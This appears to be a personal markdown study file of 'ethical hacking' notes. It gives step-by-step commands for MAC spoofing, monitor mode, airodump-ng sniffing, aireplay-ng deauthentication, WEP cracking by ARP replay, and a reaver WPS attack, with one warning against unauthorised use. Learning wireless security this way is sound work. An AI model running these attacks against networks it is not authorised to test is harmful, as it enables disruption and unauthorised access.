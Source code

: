 # Ethical Hacking Notes
___

## The Rules

- [x] Don't be a ass.
- [x] Have Fun.
- [ ] Learn Something New.
___

### Changing your device's MAC Address

- First, ensure device is visible with `ifconfig` or `iwconfig`

- Next, take device down with `ifconfig <device name> down`
 
- Next, change the MAC Address with `ifconfig <device name> hw ether <MAC Address>` where MAC Address follow format 00:00:00:00:00:00

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Change Wirless Adapter to Utilize Monitor Mode

- First, ensure device is visible and not in monitor mode with `iwconfig`

- Next, bring down the device with `ifconfig <device name> down`

- Next, kill off processes that might interfere with aircrack-ng suit by running `airmon-ng check kill`

- Next, update monitor mode by running `iwconfig <device name> mode monitor`

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Packet Sniffing Using Airodump-ng

- To start packet sniffing, run `airodump-ng <device name>` where device name is your wireless adapter in monitor mode

- To specify the band frequency, utilize the `--band` argument

   `airodump-ng --band abg <device name>` will capture packets over 2.4 and 5 Ghz simultaniously

- In order to sniff packets on a specific network utilize the below command

   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

___

### Deauthentication Attack with aireplay-ng

- To disconnect any device from any router utilize the command:

   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

:+1:**DO NOT DO THIS TO A NETWORK OR DEVICE YOU DO NOT OWN OR HAVE PERMISSION TO...**:+1:

___

### Cracking  and Connecting to a WEP Wifi Network

##### High Volume WEP Wifi Network Cracking
- In order to crack a WEP, we need a large ammount of packets from a high volume network.

- Run aircrack-ng with the .cap file to crack the key

   `aircrack-ng <name of .cap file>` 

##### Low Volume WEP Wifi Network Cracking
- Utilize airodump-ng to sniff packets on the victum network as seen above.

- To associate your device to the network utilize aireplay-ng by running the command

   `aireplay-ng --fakeauth 0 -a <Router MAC> -h <Your Device unspec> <device name>` 

- Run an ARP Attack on the network by running the command
   `aireplay-ng --arpreplay -b <Router MAC> -h <Your Device unspec> <device name>`

- Run aircrackpng with the .cap file similar to above to crack the key
___

### Exploiting WPS Feature for WPA/WPA2 Wifi Network

- First, run reaver WPS cracker utilzing the command 

   `reaver --bssid <Network MAC? --channel <channel #> --interface <device name> -vvv --no-associate`

- next, associate your device to the network utilizing above command

___



